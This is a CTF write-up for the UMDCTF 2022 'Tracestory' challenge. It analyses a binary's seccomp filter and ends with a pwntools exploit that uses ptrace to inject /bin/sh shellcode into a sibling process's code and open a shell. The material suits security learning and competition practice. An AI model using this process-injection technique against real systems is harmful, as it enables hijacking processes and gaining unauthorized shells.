 ```yaml
---
title: UMDCTF 2022
date: 2022-03-07
categories: [ctf]
tags: [seccomp, ptrace]
---
```



## Tracestory

> I am trying to figure out the end of this story, but I am not able to read it. Could you help me figure out what it is?
>
> **Author**: WittsEnd2
>
> `0.cloud.chals.io 15148`

## Summary

This is a seccomp challenge where you have to utilize `ptrace` to change behavior of child process.

## Analysis

### Binary Analysis

Looking at `main` function, here are interesting things:

1. Uses seccomp
2. Uses fork
   1. Child process calls function called `read_story()`
   2. Parent process then calls `read_input()` then `setup_seccomp()`
3. Whatever gets written to `read_input()` will eventually be called as function in `var_1020()`

Child is forked off before `seccomp` rules gets applied.
Parent process gets input from user then just executes it. (Memory where they store the user function is mmaped with `xwr` permission)


### Seccomp Rules Analysis
![](/assets/img/2022-03-07-21-24-37.png)

Using `seccomp-tools`, you can dump the seccomp rules

```
 line  CODE  JT   JF      K
=================================
 0000: 0x20 0x00 0x00 0x00000004  A = arch
 0001: 0x15 0x00 0x18 0xc000003e  if (A != ARCH_X86_64) goto 0026
 0002: 0x20 0x00 0x00 0x00000000  A = sys_number
 0003: 0x35 0x00 0x01 0x40000000  if (A < 0x40000000) goto 0005
 0004: 0x15 0x00 0x15 0xffffffff  if (A != 0xffffffff) goto 0026
 0005: 0x15 0x13 0x00 0x00000003  if (A == close) goto 0025
 0006: 0x15 0x12 0x00 0x00000004  if (A == stat) goto 0025
 0007: 0x15 0x11 0x00 0x00000005  if (A == fstat) goto 0025
 0008: 0x15 0x10 0x00 0x00000006  if (A == lstat) goto 0025
 0009: 0x15 0x0f 0x00 0x0000000a  if (A == mprotect) goto 0025
 0010: 0x15 0x0e 0x00 0x0000000c  if (A == brk) goto 0025
 0011: 0x15 0x0d 0x00 0x00000015  if (A == access) goto 0025
 0012: 0x15 0x0c 0x00 0x00000018  if (A == sched_yield) goto 0025
 0013: 0x15 0x0b 0x00 0x00000020  if (A == dup) goto 0025
 0014: 0x15 0x0a 0x00 0x00000021  if (A == dup2) goto 0025
 0015: 0x15 0x09 0x00 0x00000038  if (A == clone) goto 0025
 0016: 0x15 0x08 0x00 0x0000003c  if (A == exit) goto 0025
 0017: 0x15 0x07 0x00 0x0000003e  if (A == kill) goto 0025
 0018: 0x15 0x06 0x00 0x00000050  if (A == chdir) goto 0025
 0019: 0x15 0x05 0x00 0x00000051  if (A == fchdir) goto 0025
 0020: 0x15 0x04 0x00 0x00000060  if (A == gettimeofday) goto 0025
 0021: 0x15 0x03 0x00 0x00000065  if (A == ptrace) goto 0025
 0022: 0x15 0x02 0x00 0x00000066  if (A == getuid) goto 0025
 0023: 0x15 0x01 0x00 0x00000068  if (A == getgid) goto 0025
 0024: 0x15 0x00 0x01 0x000000e7  if (A != exit_group) goto 0026
 0025: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0026: 0x06 0x00 0x00 0x00000000  return KILL
```

Simplified view of above rules

### allowed syscalls

```
 close
 stat
 fstat
 lstat
 mprotect
 brk
 access
 sched_yield
 dup
 dup2
 clone
 exit
 kill
 chdir
 fchdir
 gettimeofday
 ptrace
 getuid
 getgid
 exit_group
```

Looking at these syscall, only write primitive syscall was `ptrace` and also the challenge is called `trace_story` so it is very obvious that we would need to use `ptrace` eventually.

## Solution

We can use `ptrace` to overwrite child's text segment with our assembly code. Child process executes random code in a infinite loop so we can just overwrite the code in the beginning of the infinite loop.

Usual process for using `ptrace` function goes as follow
Attach to child process `ptrace(PTRACE_ATTACH, CHILD_PID, 0, 0)` -> Wait for child to attach `wait(0)` -> Write to child's text segment to change the code by `ptrace(PTRACE_POKETEXT, CHILD_PID, CODE_ADDRESS, 8_BYTES_OF_CODE)` -> Detach from child `ptrace(PTRACE_DETACH, CHILD_PID, 0, 0)`

Problem is we don't have `wait()` in our syscall. So we can probably use `gettimeofday` and calculate our time that way but as great Ken Thompson said once, `When in doubt, use brute force.` So I will just attach -> write_text -> detach -> go back to beginning and repeat.

### Exploit

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwn import *

exe = context.binary = ELF('trace_story')
context.terminal = ['tmux', 'splitw', '-h']



def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:
        return remote(args.HOST, int(args.PORT))
    else:
        return process([exe.path] + argv, *a, **kw)



gdbscript = f'''
tbreak main
set follow-fork-mode parent
# set detach-on-fork off

b *0x401907
# b *0x401789
continue
'''.format(**locals())

# -- Exploit goes here --
"""
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
"""

io = start()


io.recvuntil("pid: ")
pid = int(io.recvline().strip())
print(f'pid is {pid}')




payload = "begin:"
payload += shellcraft.ptrace(constants.linux.PTRACE_ATTACH, pid, 0, 0)

binsh = asm(shellcraft.sh())
start_addr = 0x401789

for i in range(0, int(len(binsh)/8)):
    load_shit = u64(binsh[i * 8:8+(i*8)])
    payload += shellcraft.ptrace(constants.linux.PTRACE_POKETEXT, pid, start_addr + (i * 8), load_shit)

payload += shellcraft.ptrace(constants.linux.PTRACE_DETACH, pid, 0, 0)

payload += """
jmp begin
"""

io.sendlineafter(b'Input: \n', asm(payload))

io.interactive()
```
